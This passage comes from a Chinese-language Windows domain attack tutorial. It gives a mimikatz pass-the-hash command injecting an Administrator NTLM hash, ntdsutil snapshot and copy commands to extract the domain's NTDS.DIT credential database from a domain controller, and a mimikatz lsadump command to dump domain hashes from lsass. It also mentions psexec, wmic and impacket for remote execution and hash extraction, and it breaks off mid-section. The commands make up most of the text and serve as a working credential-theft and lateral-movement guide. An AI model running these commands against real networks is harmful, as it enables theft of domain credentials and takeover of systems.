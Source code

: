 在攻击机器上利用 mimikatz 将获取的 hash 注入到内存中，成功后用 dir 命令可以成功列出目录文件：

```
sekurlsa::pth /domain:. /user:Administrator /ntlm: 70be8675cd511daa9be4b8f49e829327
```

![](https://image.3001.net/images/20200304/15833020341597.png!small)

注入成功后，可以使用 psexec、wmic、wmiexec 等实现远程执行命令。

### 3.4 导出域成员 Hash

域账户的用户名和 hash 密码以域数据库的形式存放在域控制器的 %SystemRoot%\ntds\NTDS.DIT 文件中。

![](https://image.3001.net/images/20200304/15833020426925.png!small)

ntdsutil.exe 是域控制器自带的域数据库管理工具，因此我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库。

创建快照：

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

![](https://image.3001.net/images/20200304/158330205415.png!small)

加载快照：

```
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

![](https://image.3001.net/images/20200304/15833020647870.png!small)

Copy 文件副本：

```
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

![](https://image.3001.net/images/20200304/15833020748012.png!small)

将 ntds.dit 文件拷贝到本地利用 impacket 脚本 dump 出 Hash：

![](https://image.3001.net/images/20200304/15833020816765.png!small)

最后记得卸载删除快照：

```
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit    ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

**3.4.1mimikatz 导出域内 hash**

mimikatz 有两种方式可以导出域内 hash。

1、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 出密码哈希。

```
mimikatz log "privilege::debug" "lsadump::lsa /patch" exi
```
